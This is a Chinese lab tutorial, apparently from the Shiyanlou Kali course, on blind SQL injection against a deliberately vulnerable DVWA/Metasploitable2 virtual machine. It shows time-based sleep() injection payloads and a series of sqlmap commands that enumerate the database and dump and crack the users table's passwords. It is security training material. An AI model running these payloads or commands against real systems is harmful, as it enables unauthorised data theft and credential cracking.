# SQL 注入（Blind）

## 1. 课程说明

本课程为动手实验教程，为了能说清楚实验中的一些操作会加入理论内容，也会精选最值得读的文章推荐给你，在动手实践的同时扎实理论基础。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

## 2. 学习方法

实验楼的 Kali 系列课程包含五个训练营，本训练营主要讲述 Web 应用攻击方法。课程包含20个实验，每个实验都提供详细的步骤和截图。适用于有一定 Linux 系统基础，想快速上手 Kali 渗透测试的同学。

学习方法是多实践，多提问。启动实验后按照实验步骤逐步操作，同时理解每一步的详细内容。

如果实验开始部分有推荐阅读的材料，请务必先阅读后再继续实验，理论知识是实践必要的基础。

## 3. 本节内容简介

本实验中我们初步接触 Kali Linux 和渗透测试的概念。需要依次完成下面几项任务：

- SQL 盲注简介
- SQL 盲注之延时注入
- SQL 注入利器 sqlmal 的初步使用

## 4. SQL 注入（Blind）简介

上一节试验中我们了解到什么是 SQL 注入，我们会发现 SQL 注入并没有我们想象的那么那么难，那么神奇，就是发现漏洞，然后灵活运用 SQL 语句，从而获取敏感信息。

SQL 盲注在使用上与 SQL 注入没有区别，只是在获取信息的时候没有那么方便，一般 SQL 注入的时候会有错误信息的提示，从错误信息我们能够捕获到很多有用的信息，并可以使用 `'` 来测试 SQL 注入点，但是 SQL 盲注获取不到任何的错误信息，这就使得盲注比一般的注入稍微难了一点。

## 5. SQL 注入（Blind）初试

### 5.1 环境启动

与之前的实验相同，我们首先启动靶机、打开 dvwa，然后将实验的安全等级降到最低：

在实验桌面中，双击 Xfce 终端，打开终端：


使用 `sudo virsh start Metasploitable2` 命令即可启动我们的靶机系统虚拟机：


等待大约四分钟，待得虚拟机完全启动之后我们打开桌面上的 Firefox：


访问我们的靶机系统所使用的 IP 地址`192.168.122.102`：


正常的启动靶机系统之后，我们访问其 IP 地址可以得到这样的一个页面。

点击 DVMA 我们便可进入到 DVMA 的登陆页面，默认的登陆用户与密码是 admin 与 password，登陆之后便会进入这样的页面：


为了能够进行最简单的攻击，我们会把安全默认调制最低，首先进入安全模式的调整页面：


然后调整安全的 level 到 low：


当看到页面的下方 Level 的显示变化后，说明修改成功了：


### 5.2 SQL 盲注

此时我们把在提供的输入框中输入 `'` 单引号，我们会发现没有任何消息输出，一片空白：


这就是盲注，没有任何消息返回，不知是对是错，因为本来就有可能返回空值，例如我们输入随机的英文字母 `asd`，即使我们在 SQL Injection 中测试也是一样，因为在数据库中根本就不会查询到英文字母的 ID 值，所以会返回空值。

不能从中判断我们到底是允许查询字符串型还是有语法错误还是如何。这个时候使用延时注入能够给我们提供很大的帮助。

所谓的延时注入也就是基于时间注入（Time-based blind SQL injection）
，它是利用 MySQL 的 sleep() 函数，当对数据库进行查询操作，如果查询的条件或者结果根本就不存在，那么语句执行的时间将是 0，不会有任何的延迟，因为查询的条件有误，执行下去并没有效果，所以执行的速度非常的快，基本上为 0，但是若是查询的条件存在，那么执行语句有效果，sleep() 函数会根据你提供的参数要求它延迟多长时间来使得该语句执行多久，这样就会有明显的延迟，而这样的差别就能让我们判断到底是是否有结果。

例如我们尝试这两个语句执行的效果：

```
#第一句
1’ and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)#
```

此句执行的时候，很快我们就可以看到下方有结果显示出来。

```
#第二句
1’ and if((select count(table_name) from information_schema.tables where table_schema=database() )=2,sleep(5),1)#
```



此句执行之后，页面加载了有一段时间才出现反应。

这就是基于时间的盲注，通过这样的时间差异来增加我们的判断，从上面两种方式的时间差别我们可以得出在我们当前所使用的数据库中只有两张数据表。

因为当我们将第一句套入至 SQL 语句中，我们可以看到：

```
SELECT first_name, last_name FROM users WHERE user_id = '1’ and if((select count(table_name) from information_schema.tables where table_schema=database() )=1,sleep(5),1)#'
```

这个 SQL 稍微有些复杂，我们一部分一部分来看，其中 `'1'` 就不用解释了，然后中间是用的 `and`
符号来连接，if 中用 conunt 统计了当前数据库的表个数然后与 1 相比较，若是真的便执行 sleep() 函数，若是假则不执行。

我们知道我们执行的时候并没有任何的延时，所以说明数据库中表的数量不是 1，而第二句中则是与 2 相比较，我们感受到了延时，说明数据库中有两张表，这样的判断正确。并且我们在上一节试验中尝试过，的确在 dvwa 的数据库中也就两张表。

这就是基于时间注入，我们对数据库结构的猜想，并使用某种方法连验证我们的猜想，通过延时判断我们的猜想是否正确。

而注入语句的内容与上一节的类似，这里不再赘述，毕竟盲注是获取不到错误信息，而不是在接收数据时做了特殊的处理：



### 5.3 sqlmap 的使用

在介绍基于时间的盲注之后我们将为大家介绍要给神器 sqlmap。

sqlmap 是一个用来检测与利用 SQL 注入漏洞的开源工具，对于检测与利用都能够自动化处理。

sqlmap 在使用的时候需要利用的 cookie 的信息，所以我们需要安装 cookie_manager 插件来获取我们当且的 cookie 值。

我们通过这样的命令在终端中下载该插件的安装包（注意在 shiyanlou 终端中下载，别再 kali 虚拟机中下载）：

```
wget http://labfile.oss.aliyuncs.com/courses/717/cockies_manager.xpi	
```



然后我们在 Firefox 中安装该插件：

找到 Firefox 的设置



然后添加本地的插件安装包：


找到刚刚我们下载的安装文件：



选择安装该插件：



安装成功之后会提示我们重启浏览器，重启便是。

我们再次登陆到 dvwa 中，并访问 SQL Injection(Blind) 页面，在页面中我们输入 1，我们可以看到查询结果：



然后我们可以获得此时的 URL。

接着我们可以通过 cookie_manager 工具获得我们此时的 cookie 值：



紧跟着我们登陆至 kali 的终端中，并输入这样的命令：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc"
```

此处的 PHPSESSID 值请输入自己的 cookie 值。

敲击回车之后，会不断提示询问我们时候继续，当时选择 y，最后我们可以看到一个很有用的消息：



我们看到它给我们整个网站搭建所使用的平台以及相应的版本号，我们得到使用的是 MySQL 数据库。

在上面的命令之上我们添加 `--dbs` 参数，来攻击数据库，查看有哪些数据库：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" --dbs
```


查看当前使用的数据库与登陆的用户：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -b --current-db --current-user
```



我们当前使用的 dvwa，所以我们选择查看 dvwa 数据库中有哪些数据表：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -D dvwa --tables
```


得知数据表的名称，当然我们将进一步获取表中表项的内容了：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -D dvwa -T users --columns
```



既然都看到表项了，当然要看看具体数据：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -D dvwa -T users -C "user,password" --dump
```

进过几番的询问，我们都确认，此时 sqlmap 会通过默认放在本地的字典为我们破解数据库中的密码，使其明文显示，因为通过字典匹配所以需要一定的时间：



可以尝试着使用我们破解出来的用户名与密码登陆一番，看是否能够正常的登陆。

## 6. 总结

本节实验中我们学习了以下内容，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流：

- SQL 盲注简介
- SQL 盲注之延时注入
- SQL 注入利器 sqlmal 的初步使用

请务必保证自己能够动手完成整个实验，只看文字很简单，真正操作的时候会遇到各种各样的问题，解决问题的过程才是收获的过程。

## 7. 作业

1. 使用 Mutillidae 环境完成类似的实验。